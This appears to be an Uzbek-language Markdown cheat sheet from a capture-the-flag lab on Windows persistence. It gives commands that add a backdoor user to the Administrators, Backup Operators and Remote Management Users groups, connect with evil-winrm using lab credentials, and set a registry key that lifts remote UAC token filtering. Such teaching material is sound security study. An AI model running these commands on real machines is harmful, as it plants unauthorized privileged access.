 # Bo'rimiz, gohida qo'yni maskasini ham kiyishimizga to'g'ri keladi)
Bizda Admin huquqi bor backdoor user qoldirishimiz, keyingi ishalrni o'sha userlardan qilishimiz mumkin.

### Userni Guruhlarga qo'shish
Adminlar gruppasiga:
```
net localgroup administrators __username__ /add
```

BackUp gruppasiga:
```
net localgroup "Backup Operators" __username__ /add
```

Remote management group:
```
net localgroup "Remote Management Users" __username__ /add
```
Bu bizga masofadan ulanishga imkon yaratadi.


### Userga ulanish:
```
evil-winrm -i 10.10.187.100 -u thmuser1 -p Password321
```
Agar o'rnatilmagan bo'lsa, Arch uchun buyruq:
```
sudo pacman -S evil-winrm
```

Agar biz **evil-winrm**dan foydalanmasdan GUI tarzda ulanishni istasak muhitni quyidagicha qilishimiz kerak:
```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```
ushbu buyruq bajarilgach qayta ulanishimiz kerak.


**evil-rm** bilan ulangach:
![Photo](https://github.com/akhatkulov/cheatsheets-for-windows/blob/main/Windows%20Local%20Persistence/Tampering%20With%20Unprivileged%20Accounts/whoami_group.png)
```
whoami /group
```
